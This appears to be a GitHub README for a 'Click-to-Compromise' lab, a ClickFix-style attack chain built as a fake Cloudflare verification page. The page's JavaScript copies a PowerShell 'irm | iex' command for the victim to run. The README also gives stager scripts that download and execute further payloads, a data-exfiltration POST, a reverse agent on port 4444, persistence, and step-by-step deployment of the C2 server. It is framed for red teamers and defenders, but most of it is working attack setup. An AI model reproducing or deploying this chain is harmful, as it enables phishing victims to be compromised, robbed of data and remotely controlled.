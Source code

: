 # Materials for Click-to-Compromise technique

[This article]() is a deep dive into the **Click-to-Compromise** technique: a minimal-interaction, post-phishing attack chain that transitions from a single PowerShell command into full system compromise. It’s designed for red teamers, malware analysts, adversary emulation professionals, and curious defenders looking to understand modern evasion techniques beyond script kiddie noise.

## The attack chain

<div align="center"> 
  <img src="/resources/attack_chain.png" alt="" />
</div>

## The files

- **C2 folder:** contains the source code I have used within an IDE (IntelliJ IDEA) to run the C2.
- **website folder:** contains the web files ready to host in a server.
- **payloads folder:** contains the *.ps1* files.

## The setup

I tried to keep the setup as simple as possible for replication purposes: just 2 machines running Windows 11.

### Attacker

I was investigating on Windows 11 OS and the only tools needed are:
- Docker
- VirtualBox
- IDE to run the C2 and modify the code as needed
- Cloudflare Tunnel (setup is out if the scope of this doc)

> **REMEBER: Modify the payloads as needed in all files.**

On Cloudflare Zero Trust, create a tunnel (if you don't have one already) and create a public hostname pointing to your website server local IP. This will be your malicious website that we will need to add in the next step. 

Inside `index.html`:

```javascript
var maliciousCommand = 'powershell -ExecutionPolicy Bypass -NoProfile -Command irm \'<https://your.serverurl.com/payload.html>\' | iex';
```

Inside `payload.html`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/cloudflare.verification.txt -OutFile $env:USERPROFILE\Desktop\cloudflare.verification.ps1; 
powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\cloudflare.verification.ps1
```

Inside `cloudflare.verification.txt`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/infoexfil.ps1 -OutFile $env:USERPROFILE\Desktop\infoexfil.ps1

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/agent.ps1 -OutFile "$env:USERPROFILE\Desktop\agent.ps1"

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/persist.ps1 -OutFile "$env:USERPROFILE\Desktop\persist.ps1"
```

Inside `infoexfil.ps1`:

```powershell
Invoke-WebRequest -Uri "https://yourmockbin.api.mockbin.io/" -Method POST -Body $body -ContentType "application/json"
```

Inside `agent.ps1`:

```powershell
$C2 = "YOUR IP ADDRESS"
$Port = 4444
```

Inside `persist.ps1`:

```powershell
Invoke-WebRequest -Uri "https://your.serverurl.com/payloads/agent.ps1" -OutFile $payloadPath
```

#### Database

I have used **Docker Desktop**. Run a **MySQL** container with the following **environmental variables**:

```
MYSQL_ROOT_PASSWORD=w0DSQGYPsvARiBVTiwKKH3otYZ4rxKGu
MYSQL_DATABASE=c2server
```

Start the container.

#### C2

Open your preferred IDE and open the C2 files as a project. Then:

1. Run **TestDBConnection** class first to make sure your DB connection is fine and to create the **agents** table
2. Build the artifacts to deploy with **Tomcat**
3. Deploy to **Tomcat** and visit **/server/agents** endpoint

#### Website

I have used NGINX running on Docker. Start the container in your desired port (not 8080, I used a random 6984) and launch a terminal inside the website folder. To copy the files inside the container, run the following commands:

```
docker ps
```
This will list your running containers, identify your server conatiner name. Next, create the `payloads` directory in your server:

```
mkdir /usr/share/nginx/html/payloads
```

Then, launch a terminal inside your website folder and copy the files into your server Docker container with this commands:

```
docker cp index.html clickfix:/usr/share/nginx/html/
docker cp payloads.html clickfix:/usr/share/nginx/html/

docker cp turnstyle.css clickfix:/usr/share/nginx/html/
docker cp turnstile_gif.gif clickfix:/usr/share/nginx/html/
docker cp recaptcha.png clickfix:/usr/share/nginx/html/
```

Now, launch a terminal inside your payloads folder and copy the files into your server Docker container with this commands::

```
docker cp cloudflare.verification.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp infoexfil.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
``` 

### Victim

For the victim, I used a VirtualBox VM running **Windows 11 (24H2)** in bridged adapter mode. Then I just installed Chrome to access the website.

#### VM config

<div align="left"> 
  <img src="/resources/win_11_setup.png" width="500" alt="" />
</div>

## The attack

Once everything is running and tested, let's infect the victim machine. To do so, inside your victim VM just visit your malicious website and follow the prompt as an innocent victim would. If you did everything right, you should see how the files get downloaded in the Desktop and, after a minute or so, how the agent appears in your C2 agents panel at **/server/agents**.

https://github.com/user-attachments/assets/7a59ae1a-8eca-4d59-8513-4921c8803b61


